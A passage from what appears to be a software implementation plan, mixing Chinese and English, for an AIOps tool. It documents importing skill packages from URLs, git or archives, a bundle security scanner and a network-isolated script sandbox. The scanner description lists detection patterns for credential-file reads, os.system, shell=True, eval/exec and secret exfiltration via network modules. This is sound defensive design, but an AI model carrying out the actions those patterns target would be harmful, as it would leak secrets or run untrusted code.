source .venv/bin/activate && python -m pytest tests/ -q > /tmp/aiops-full-suite.txt 2>&1; tail -20 /tmp/aiops-full-suite.txt
```
Expected: 除 `tests/test_web_tools.py` 里因本机 DNS 把 `example.com` 解析到内网而触发 SSRF 守卫的**已知预期失败**外，0 failed。（不要把 pytest 直接管进 `tail`——缓冲会看起来像卡死。）

- [ ] **Step 2: 更新 `CLAUDE.md`**

在 `### Skills (skills/) — autonomous, self-optimizing` 段落末尾追加：

```markdown
- **Wide loading (URL / git / zip)**: `skills/sources.py` — `import_skills(uri, names=None)` fetches an
  `http(s)` archive or bare `SKILL.md`, a git repo (`git+https://…[@ref][#subdir]`, `--depth 1`, `.git`
  stripped), or a local zip/tar.gz/directory; recursively discovers EVERY directory holding a `SKILL.md`
  (a hit is not descended into, so a skill's own `references/SKILL.md` never becomes a second package).
  Per-package fail-closed checks: kebab-case name (validated against the destination draft dir), no
  symlinks, no archive entry that is absolute/traversing/a link, extension allowlist, file-count and byte
  caps; then staging + `os.replace` atomic rename so there is never a half-installed skill. Everything
  lands in `skills_draft_dir` with `created_by=imported` + `source_uri`/`source_ref`/`imported_at` — never
  published, never injected, and **no packaged script is ever executed during import** (no `install.sh`
  hook). Importing is a HUMAN action: `aiops skills import <uri> [--name N]` or
  `POST /api/skills/import-source` (the older `POST /api/skills/import` remains the multipart upload path).
  Agents get no import tool. `imported` skills age like `agent` drafts under the Curator; `user` skills stay pinned.
- **Bundle security gate**: `promote_skill` now calls `security.scan_skill_bundle(pkg_dir)` — the SKILL.md
  body (as before) PLUS every packaged `.sh` (per-line `classify_shell_command`) and `.py`
  (`_PY_DESTRUCTIVE_PATTERNS`: credential-file reads, `os.system`, `shell=True`, `eval`/`exec`, and secret
  env names when a network module co-occurs). Auxiliary gate only — the real boundary is the sandbox plus
  human approval; obfuscated code is out of scope by design.
- **Script sandbox** (`skills/sandbox.py`, default OFF): `run_script(skill, script, args, stdin_text)` runs a
  **published** skill's own `*.py`/`*.sh` with the env built from an EMPTY dict (only `PATH`/`HOME`/`LANG`,
  so no `AWS_*` can structurally appear), network isolation via `unshare -n` (Linux) / `sandbox-exec` (macOS)
  — and when neither exists it **refuses to run** while `skills_sandbox_require_isolation` is true, rather
  than claiming an isolation it does not have. Interpreter comes from a suffix allowlist (never a shebang,
  never the exec bit, `shell=False`), cwd is a one-shot `mkdtemp` deleted afterwards, timeout kills the
  process group, stdout/stderr are truncated. Exposed to the executor agent as `run_skill_script`; there are
  no credentials and no network inside, so cloud actions still go through `run_aws_cli`/`run_on_host`/`run_kubectl`.
```

在 Key Configuration 表中追加 10 行：

```markdown
| `skills_import_enabled` | `true` | Allow importing skills from URL/git/zip (CLI + `/api/skills/import-source`) |
| `skills_import_max_package_bytes` | `2097152` | Max bytes per imported package (also the download cap) |
| `skills_import_max_files` | `50` | Max files per imported package |
| `skills_import_allowed_extensions` | `[.md,.py,.sh,.txt,.json,.yaml,.yml,.csv]` | Extension allowlist for imported packages |
| `skills_import_timeout_seconds` | `60` | Download / `git clone` timeout |
| `skills_sandbox_enabled` | `false` | Enable running skill-owned `*.py`/`*.sh` in the restricted sandbox |
| `skills_sandbox_timeout_seconds` | `60` | Per-run sandbox timeout (kills the process group) |
| `skills_sandbox_max_output_chars` | `20000` | Truncation cap for sandbox stdout and stderr each |
| `skills_sandbox_require_isolation` | `true` | Refuse to run when no `unshare -n` / `sandbox-exec` is available |
| `skills_sandbox_interpreters` | `{.py: python, .sh: /bin/bash}` | Suffix → interpreter allowlist (`python` = `sys.executable`) |
```

- [ ] **Step 3: 更新 `skills/ADDING_SKILLS.md`**

追加两节（放在既有"如何新建技能"之后）：

```markdown
## 从外部源导入技能（URL / git 仓库 / zip）

导入是**人类动作**，agent 没有导入工具。导入的技能一律落 draft——不注入提示词、不自动生效、包内脚本在导入过程中绝不被执行。

```bash
aiops skills import https://example.com/skill-pack.zip
aiops skills import git+https://github.com/org/repo.git@main#skills
aiops skills import ./bundle.tar.gz --name log-triage --name cost-digest
aiops skills import /path/to/local/skill-dir --json
```

一个仓库/归档里可以装多个技能：递归找出所有含 `SKILL.md` 的目录，每个视作一个包（命中后不再下钻，所以技能自己的
`references/SKILL.md` 不会被误当成第二个包）。`--name` 可按名过滤。

逐包硬约束（违反即该包被拒，其余包不受影响）：kebab-case 技能名、无符号链接、归档条目不得为绝对路径/含 `..`/为链接、
文件后缀在白名单内、文件数 ≤ `skills_import_max_files`、总字节 ≤ `skills_import_max_package_bytes`。

导入后走既有审批链：

```
/skill review <name>     # 看 diff
/skill promote <name>    # 过整包安全扫描后才发布
/skill reject <name>     # 丢弃
```

`promote` 会扫整包（SKILL.md 正文 + 所有 `.sh`/`.py`）；发现 blocked 级命令、读凭证文件、`os.system`、
`shell=True`、`eval`/`exec` 等即拒绝发布。旧版本自动进 `skills/.archive/`，可 `rollback`。

## 技能自带脚本与沙箱

技能包可以带 `*.py` / `*.sh`。它们**只能**被 `run_skill_script` 在受限沙箱里跑，且必须先 promote 成 published。

沙箱边界：
- **无凭证**——env 从空 dict 起建，只有 `PATH`/`HOME`/`LANG`，任何 `AWS_*` 结构上不可能出现；
- **无网络**——Linux 走 `unshare -n`，macOS 走 `sandbox-exec`；两者都拿不到时**直接拒跑**（默认），绝不假装隔离；
- **一次性工作目录**——脚本在临时目录里跑，跑完删除，写不回技能包；
- **显式解释器**——按后缀查白名单，不看 shebang、不依赖可执行位、不起 shell；
- 超时 kill 进程组，stdout/stderr 各自截断。

因此脚本只适合**纯本地计算**：解析日志/JSON、统计、生成报表片段。需要云 API 的动作仍走
`run_aws_cli` / `run_on_host` / `run_kubectl` 的既有三级门。沙箱默认关闭，需在 `config/settings.yaml` 把
`skills_sandbox_enabled` 设为 `true`。
```

- [ ] **Step 4: 更新 `docs/WORKFLOW.md`**

在技能相关章节追加一段"技能广域加载与沙箱"，含一张 Mermaid 流程图（与文件既有 Mermaid 风格一致）：

```markdown
### 技能广域加载 + 脚本沙箱



要点：导入只落 draft，不执行包内任何代码；promote 是唯一的生效门，且会扫整包脚本；沙箱是与
`run_on_host`/`run_kubectl` 正交的新通道，默认关闭，拿不到隔离器就拒跑。
```

- [ ] **Step 5: 提交**

```bash
git add CLAUDE.md docs/WORKFLOW.md skills/ADDING_SKILLS.md
git commit -m "docs(skills): wide loading (URL/git/zip) + script sandbox"
```

---

## Self-Review

**1. Spec 覆盖**（逐节对照 spec）

| Spec 节 | 落在 |
|---|---|
| §1 目标 1 三条摄入源 | Task 4（`fetch` 三源 + 本地目录/归档） |
| §1 目标 2 多技能自动发现 | Task 2 |
| §1 目标 3 脚本沙箱 | Task 7 + Task 8 |
| §2 接缝（不改 loader） | 全程只 import，`loader.py` 无修改 |
| §4.1 接口 | Task 3（`ImportedSkill`/`ImportResult`/`install_packages`）+ Task 4（`fetch`/`import_skills`） |
| §4.2 源识别表 | Task 4 `_is_git`/`_fetch_git`/`_fetch_http`/`fetch` |
| §4.2 下载解包硬约束 | Task 4 `_download` 流式上限、`_unpack` 逐条目校验（不用 `extractall`）、`git clone --depth 1` + 删 `.git` + 超时、`tempfile.mkdtemp` + `finally` 清理 |
| §4.3 discover | Task 2（含 skip 名单、命中不下钻、排序、根目录参与） |
| §4.4 逐包校验 1-6 | Task 3（名字 R2 / 冲突双查 / 白名单+符号链接+体积+文件数 / staging 原子 rename + 非可执行位 / provenance / `_invalidate_skills_cache`） |
| §4.5 摄入不做的事 | Task 3/4 无任何执行路径；Task 4 `test_import_never_executes_packaged_scripts` 钉住 |
| §5 scan_skill_bundle | Task 5（含 `.sh` 逐行、`.py` 正则、非可执行后缀不扫、R6 同现条件） |
| §5 promote 接入 | Task 6 |
| §6.1 接口 | Task 7（`SandboxResult`/`run_script`/`detect_isolation`） |
| §6.2 契约 1-8 | Task 7（published-only / 路径穿越 / 解释器白名单 / 空 env / 隔离或拒跑 / 一次性 cwd / 超时+截断 / 总开关） |
| §6.3 Agent 工具 | Task 8（R5：挂 executor，双门控） |
| §7 入口 | Task 9（CLI + Web；R1 新端点名） |
| §8 配置 10 字段 | Task 1 |
| §9 错误处理 | Task 3（逐包 fail-soft 三分类）+ Task 4（整源抛错无副作用、临时目录 finally）+ Task 7（拒绝抛 RuntimeError） |
| §10 测试 1-21 + 13b | 1→T3、2→T4 git、3→T3 filter、4→T2 不下钻、5→T4 zip、6→T3+T4 拒绝面、7→T3 同名、8→T4 不支持 uri、9→T4 不执行、10-12→T5、13→T6 promote、13b→T6 Curator、14→T8 disabled、15→T7 env、16→T7 gates、17→T7 timeout、18→T7 truncate、19→T7 exit/分流、20→T7 isolation、21→T7 一次性目录 |
| §11 实施顺序 1-6 | Task 1→2/3/4→5/6→7/8→9→10 |
| §12 决策备忘 | Global Constraints 4/6/7/10 + R5 |

无遗漏。

**2. 占位符扫描**：无 TBD/TODO/"类似 Task N"/"补充适当错误处理"；每个代码步骤都给出完整可粘贴代码；所有 `Modify` 都带行号或明确锚点。

**3. 类型一致性**：
- `ImportResult` 的 `skipped`/`rejected` 全程是 `list[tuple[str, str]]`；只有 CLI/Web 出口把它转成 `{"name","reason"}` dict（Task 9），测试断言与之一致。
- `_Reject` 只在 `sources.py` 内部流通，`install_packages` 捕获后转成 `rejected` 条目；`import_skills` 只对**整源**错误放 `ValueError`/`RuntimeError` 出去 —— Task 9 的 Web 层正是按这两类映射 400/403。
- `scan_skill_bundle` 的 finding 键在 Task 5 定义（`file/line/snippet/tier/reason`），Task 6 只判 `safe` 并整体记日志，无键名分歧。
- `detect_isolation()` / `SandboxResult.isolation` 三个字面量 `"unshare"|"sandbox-exec"|"none"` 在 Task 7 的实现、`_wrap` 与测试中完全一致。
- `settings.skills_sandbox_interpreters` 全程按 `dict[str, str]` 使用，`"python"` → `sys.executable` 的解析只在 `run_script` 一处发生。
- Task 8 的工具签名 `args: str`（Strands 工具用扁平字符串）与 Task 7 的 `args: list[str] | None`（内部 API）通过 `shlex.split` 显式桥接，两处不混用。
